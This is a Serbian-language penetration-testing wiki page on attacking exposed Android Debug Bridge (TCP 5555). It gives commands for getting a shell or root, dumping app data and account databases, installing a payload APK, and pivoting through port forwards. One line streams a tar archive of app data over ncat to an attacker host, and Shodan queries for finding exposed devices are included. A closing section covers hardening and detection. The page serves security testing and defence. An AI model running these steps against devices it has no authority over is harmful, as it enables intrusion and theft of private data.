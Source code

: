# 5555 - Android Debug Bridge

{{#include ../banners/hacktricks-training.md}}

## Osnovne informacije

Iz [dokumentacije](https://developer.android.com/studio/command-line/adb):

Android Debug Bridge (adb) je alat komandne linije za komunikaciju sa uređajima i emulatorima zasnovanim na Androidu. Tipične radnje uključuju instalaciju paketa, debagovanje i dobijanje interaktivnog Unix shell-a na uređaju.

- Istorijski podrazumevani TCP port: 5555 (klasični "adb tcpip" režim).
- Moderno bežično debagovanje (Android 11+) koristi TLS uparivanje i mDNS otkrivanje usluga. Port za povezivanje je dinamičan i otkriva se putem mDNS; možda neće biti 5555. Uparivanje se vrši sa adb pair host:port, a zatim adb connect. Pogledajte beleške u nastavku za ofanzivne implikacije.

Primer nmap otiska:
```
PORT     STATE SERVICE VERSION
5555/tcp open  adb     Android Debug Bridge device (name: msm8909; model: N3; device: msm8909)
```
## Poveži se

Ako pronađeš ADB izložen i dostupan, pokušaj brzo da se povežeš i izvršiš enumeraciju:
```bash
adb connect <ip>[:<port>]      # Default is 5555 for classic mode
adb devices -l                 # Confirm it shows as "device" (not unauthorized/offline)
adb shell                      # Get an interactive shell (uid usually shell)
whoami; id; getprop ro.debuggable ro.secure service.adb.tcp.port
adb root || true               # Works on eng/userdebug/insecure builds, many emulators/IoT
```
- Ako uređaj primenjuje ADB autentifikaciju (ro.adb.secure=1), bićete potrebni da budete unapred autorizovani (USB RSA auth) ili da koristite Android 11+ bežično uparivanje za debagovanje (što zahteva jednokratni kod prikazan na uređaju).
- Neki proizvođački imidži, inženjerske/userdebug verzije, emulatori, televizori, STB-ovi i razvojni kompleti izlažu adbd bez autentifikacije ili sa adbd koji radi kao root. U tim slučajevima, obično ćete direktno ući u shell ili root shell.

Za opšti ADB referentni vodič, pogledajte:

{{#ref}}
../mobile-pentesting/android-app-pentesting/adb-commands.md
{{#endref}}

## Brza Post-Exploatacija

Kada imate shell, proverite privilegije i SELinux kontekst:
```bash
id; getenforce; getprop ro.build.type ro.product.model ro.build.fingerprint
```
### Enumerate and capture data

- Lista aplikacija trećih strana i putanja:
```bash
pm list packages -3
pm path <pkg>
```
- Ako imate root (adb root ili su rade), možete pristupiti /data direktno. Ako ne, preferirajte run-as za aplikacije koje se mogu debagovati:
```bash
# Bez roota, za aplikaciju koja se može debagovati
run-as <pkg> sh -c 'cd /data/data/<pkg> && tar cf - .' | tar xf - -C ./loot/<pkg>

# Sa rootom
cp -a /data/data/<pkg> /sdcard/<pkg>
exit
adb pull "/sdcard/<pkg>"
```
- Korisni sistemski artefakti (potreban root):
- /data/system/users/0/accounts.db i povezani AccountManager podaci
- /data/misc/wifi/ (mrežne konfiguracije/ključevi na starijim verzijama)
- Specifične SQLite DB-ove aplikacija i shared_prefs pod /data/data/<pkg>

Možete koristiti ovo za preuzimanje osetljivih informacija (npr., tajne aplikacije). Za beleške o razmatranjima podataka Chrome-a, pogledajte problem referenciran [ovde](https://github.com/carlospolop/hacktricks/issues/274).

### Code execution and payload delivery

- Instalirajte i automatski dodelite dozvole za vreme izvođenja:
```bash
adb install -r -g payload.apk         # -g dodeljuje sve dozvole za vreme izvođenja navedene u manifestu
adb shell monkey -p <pkg> -c android.intent.category.LAUNCHER 1
```
- Pokrenite aktivnosti/usluge/emitovanja direktno:
```bash
adb shell am start -n <pkg>/<activity>
adb shell am startservice -n <pkg>/<service>
adb shell am broadcast -a <action>
```

### Port forwarding and pivoting

Čak i bez roota, adb može preusmeriti lokalne portove na portove uređaja i obrnuto. Ovo je korisno za pristup uslugama vezanim lokalno na uređaju ili za izlaganje usluga napadača uređaju.

- Preusmeravanje host->uređaj (pristup lokalnoj usluzi uređaja sa vašeg hosta):
```bash
adb forward tcp:2222 tcp:22       # Ako uređaj pokreće SSH (npr., Termux/Dropbear)
adb forward tcp:8081 tcp:8080     # Izložite lokalni debug server aplikacije
```
- Obrnuto preusmeravanje uređaj->host (omogućite uređaju da dođe do usluge na vašem hostu):
```bash
adb reverse tcp:1080 tcp:1080     # Aplikacije na uređaju sada mogu doći do host:1080 kao 127.0.0.1:1080
```
- Ekstrakcija fajlova preko soketa (bez pisanja na sdcard):
```bash
# Na hostu: slušajte
ncat -lvp 9000 > dump.tar
# Na uređaju: pošaljite direktorijum kao tar (root ili run-as prema potrebi)
adb shell "tar cf - /data/data/<pkg>" | ncat <HOST_IP> 9000
```

## Wireless Debugging (Android 11+)

Moderni Android implementira TLS-zaštićeno bežično debagovanje sa uparivanjem sa strane uređaja i mDNS otkrivanjem:
```bash
# On the device: Developer options -> Wireless debugging -> Pair device with pairing code
# On attacker host (same L2 network, mDNS allowed):
adb pair <device_ip>:<pair_port>   # Enter the 6-digit code shown on device
adb mdns services                  # Discover _adb-tls-connect._tcp / _adb._tcp services
adb connect <device_ip>:<conn_port>
```
Notes
- Portovi su dinamični; ne pretpostavljajte 5555. mDNS imena usluga izgledaju ovako:
- _adb-tls-pairing._tcp (pariranje)
- _adb-tls-connect._tcp (povezivanje)
- _adb._tcp (legacy/plain)
- Ako je mDNS filtriran, klasično omogućavanje putem USB-a može i dalje raditi na nekim verzijama: `adb tcpip 5555` zatim `adb connect <ip>:5555` (do ponovnog pokretanja).

Ofanzivne implikacije: ako možete da interagujete sa UI uređaja (npr. fizički pristup ili pogrešna konfiguracija mobilnog MDM) da omogućite bežično debagovanje i vidite kod za pariranje, možete uspostaviti dugotrajni ADB kanal bez kabla. Neki OEM-ovi izlažu ADB preko TCP-a u inženjerskim/dev slikama bez pariranja—uvek proverite.

## Hardening / Detection

Defanzivci bi trebali pretpostaviti da je svaki dostupni adbd (TCP) kritički rizik.

- Onemogućite ADB i bežično debagovanje kada nisu potrebni. Oduzmite ovlašćenja za USB debagovanje u opcijama za programere.
- Osigurajte da mrežna politika blokira dolazni TCP/5555 i mDNS zasnovano ADB otkrivanje na nepouzdanim segmentima.
- Na uređajima pod vašom kontrolom:
```bash
settings put global adb_enabled 0
setprop service.adb.tcp.port -1   # onemogućite TCP slušanje (ili koristite: adb usb)
stop adbd; start adbd             # restartujte demon
```
- Pratite mDNS zapise `_adb._tcp`, `_adb-tls-connect._tcp`, `_adb-tls-pairing._tcp` na korporativnim mrežama i upozorenja za neočekivane 5555 slušaoce.
- Inventar za nesigurne verzije: `getprop ro.debuggable`, `ro.build.type`, i `ro.adb.secure`.

## Shodan

- android debug bridge
- port:5555 product:"Android Debug Bridge"

## References

- Android Developers – Android Debug Bridge (adb): https://developer.android.com/studio/command-line/adb
- AOSP – ADB over Wi‑Fi, pairing and mDNS service names: https://android.googlesource.com/platform/packages/modules/adb/+/refs/tags/android-vts-15.0_r2/docs/dev/adb_wifi.md
{{#include ../banners/hacktricks-training.md}}

